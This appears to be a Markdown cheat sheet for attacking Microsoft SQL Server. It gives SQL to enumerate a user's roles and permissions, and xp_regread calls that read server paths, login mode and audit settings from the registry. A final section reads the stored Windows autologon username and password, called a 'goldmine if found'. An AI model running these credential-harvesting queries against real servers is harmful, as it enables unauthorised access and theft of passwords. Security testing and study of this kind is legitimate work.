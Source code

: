
### Get row count for all tables in a database

**doesn't work...***
```sql
SELECT t.NAME AS TableName, p.rows AS RowCount FROM sys.tables t INNER JOIN sys.partitions p ON t.object_id = p.object_id WHERE t.is_ms_shipped = 0 AND p.index_id IN (0,1) ORDER BY p.rows DESC;
```

### Enum permissions

```sql
# is user sysadmin
SELECT IS_SRVROLEMEMBER('sysadmin');

# get current user's server roles
SELECT r.name FROM sys.server_role_members m JOIN sys.server_principals r ON m.role_principal_id = r.principal_id JOIN sys.server_principals p ON m.member_principal_id = p.principal_id WHERE p.name = SYSTEM_USER;

# Get current database user permissions
SELECT permission_name, state_desc FROM sys.database_permissions WHERE grantee_principal_id = USER_ID();
```

## Register Keys

### SQL Server instance info
```sql
-- SQL Server instance info
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Microsoft SQL Server\Instance Names\SQL';

-- SQL Server paths
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Setup', 'SQLBinRoot';
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\Setup', 'SQLDataRoot';

-- Login mode (mixed/Windows)
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\MSSQLServer', 'LoginMode';

-- Audit level
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Microsoft SQL Server\MSSQL16.MSSQLSERVER\MSSQLServer', 'AuditLevel';

```

### Credentials & Autologon
```sql
sql-- Windows autologon credentials (goldmine if found)
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon', 'DefaultUserName';
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon', 'DefaultPassword';
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon', 'DefaultDomainName';
EXEC xp_regread 'HKEY_LOCAL_MACHINE', 'SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon', 'AutoAdminLogon';
```
